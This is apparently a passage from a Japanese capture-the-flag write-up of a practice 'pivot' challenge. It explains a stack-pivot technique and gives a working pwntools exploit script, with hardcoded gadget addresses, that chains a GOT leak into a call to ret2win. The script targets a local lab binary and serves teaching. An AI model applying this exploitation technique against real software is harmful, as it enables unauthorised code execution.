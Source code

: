 
これを実施する攻撃コードを作りたいが、今回Buffer Overflowを利用して書き込める領域はかなり狭い。そのため`rsp`レジスタの値を書き換えてスタックの位置を変更したい。

コードをよく見るとはじめに`malloc`でメモリ領域を確保した後、その領域をアドレスを提供してくれている。なので、このメモリ内に攻撃コードを書き込んだ後、Stack Pivotでスタックをこの位置に向けるようなコードを書けば良い。

```
#!/usr/bin/env python3

from pwn import *

PIVOT = './pivot'
LIB   = './libpivot.so'

def exploit():
    # setup
    context.update(arch='amd64', os='linux')
    lib = ELF(LIB)
    p = process(PIVOT)

    pivot  = 0
    offset = lib.symbols['ret2win'] - lib.symbols['foothold_function']
    plt_foothold = p64(0x400720)
    got_foothold = p64(0x601040)
    call_rax     = p64(0x4006b0)
    pop_rax      = p64(0x4009bb)
    mov_rax_ptr  = p64(0x4009c0)
    pop_rbp      = p64(0x4007c8)
    add_rax_rbp  = p64(0x4009c4)
    xchg_rsp_rax = p64(0x4009bd)

    # 1) making a paylaod that leaks the address of 
    #    `foothold_function` then calls `ret2win`
    payload1  = b''
    payload1 += plt_foothold
    payload1 += pop_rax
    payload1 += got_foothold
    payload1 += mov_rax_ptr
    payload1 += pop_rbp
    payload1 += p64(offset)
    payload1 += add_rax_rbp
    payload1 += call_rax
    
    p.recvuntil(b'pivot: 0x')
    pivot = int(p.recvline().strip(), 16)
    p.recvuntil(b'>')
    p.sendline(payload1)

    # 2) another payload that changes the stack pointer to `pivot`
    payload2  = b''
    payload2 += b'A' * 0x28
    payload2 += pop_rax
    payload2 += p64(pivot)
    payload2 += xchg_rsp_rax
    p.recvuntil(b'>')
    p.send(payload2)
    p.interactive()

    return

if __name__ == '__main__':
    exploit()
```
